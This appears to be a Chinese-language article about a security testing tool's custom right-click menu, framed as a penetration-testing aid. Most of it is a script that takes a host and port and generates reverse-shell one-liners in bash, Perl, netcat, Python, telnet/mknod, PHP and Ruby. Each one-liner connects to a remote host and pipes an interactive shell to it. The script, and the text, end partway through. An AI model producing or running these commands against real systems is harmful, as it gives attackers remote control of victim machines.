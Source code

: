 ![](/articles/wechat2md-151d5edc5897dd0c05900660571b46ab.png)  

自定义右键菜单执行可以通过勾选来选择处理某段数据。  
  
### **关卡1：反弹shell**  
  
在安全测试过程中，反弹shell命令很常用的，可以通过这个功能来讲生成反弹shell命令自动化  
```
handle = func(origin /*string*/) {
    host, port, _ = str.ParseStringToHostPort(origin)
    if port <= 0 {
        port = 4444
    }
    if host == "" {
        host = origin
    }
    
    # handle your origin str
    lines = make([]string)
    add = func(s) {
        lines = append(lines, s)
    }
    add("# Bash Linux")
    add(sprintf(`bash -i >& /dev/tcp/%v/%v 0>&1`, host, port))
    add("")

    add("# Perl")
    add(sprintf(`perl -e 'use Socket;$i="%v";$p=%v;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`, host, port))
    add(sprintf(`perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"%v:%v");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'`, host, port))
    add("")
    
    add("# NC")
    add(sprintf(`nc -e /bin/sh %v %v`, host, port))
    add(sprintf(`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc %v %v >/tmp/f`, host, port))

    add("# Python -C")
    add(sprintf(`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("%v",%v));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`, host, port))
    add(sprintf(`python -c "exec(\"import socket, subprocess;s = socket.socket();s.connect(('%v',%v))\nwhile 1:  proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE);s.send(proc.stdout.read()+proc.stderr.read())\")"`, host, port))
    add("")

    add("# mknod")
    add(sprintf(`mknod backpipe p && telnet %v %v 0<backpipe | /bin/bash 1>backpipe`, host, port))
    add("")

    add("# PHP")
    add(sprintf(`php -r '$sock=fsockopen("%v",%v);exec("/bin/sh -i <&3 >&3 2>&3");'`, host, port))
    add("")

    add(sprintf(`ruby -rsocket -e'f=TCPSocket.open("%v",%v).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`, host, port))
    add(sprintf(`ruby -rsocket -e 'exit if fork;c=TCPSocket.new("%v","%v");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'`, host, port))
    add(sprintf(`ruby -rsocket -e 'c=TCPSocket.new("%v","%v");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'`, host, port))
    add("")

```